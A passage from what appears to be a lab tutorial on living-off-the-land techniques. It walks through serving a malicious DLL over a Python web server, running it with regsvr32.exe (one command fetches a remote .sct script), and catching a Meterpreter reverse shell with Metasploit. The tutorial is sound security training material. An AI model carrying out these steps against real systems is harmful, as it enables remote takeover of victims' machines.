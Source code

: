 ```
LPORT => 443 
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on ATTACKBOX_IP:443 

	    
```

Note that we specified the output type as DLL using the-f argument. Once the malicious DLL file is generated, we need to deliver the payload to the victim machine. We will do this by using a webserver to serve the DLL file on our attacking machine as follows,

```
Terminal

           
			
user@machine$ python3 -m http.server 1337

	    
```

From the victim machine, visit the webserver of the attacking machine on port 1337 that we specify. Note that this port can be changed with your choice!

On the victim machine, once the file DLL file is downloaded, we execute it using regsvr32.exe  as follows,

```
Command Prompt

           
			
C:\Users\thm> c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
or
C:\Users\thm> c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll

	    
```

With the second option, which is a more advanced command, we instruct the regsvr32.exe to run:

    /s: in silent mode (without showing messages)
    /n: to not call the DLL register server
    /i:: to use another server since we used /n
    /u: to run with unregister method

On the attacking machine, we should receive a reverse shell.

```
Terminal

           
			
msf6 > exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on ATTACKBOX_IP:443 
[*] Sending stage (175174 bytes) to 10.10.159.197 
[*] Meterpreter session 1 opened (ATTACKBOX_IP:443 -> 10.10.159.197:52845 ) at 2022-01-20 05:51:31 -0600

	    
```

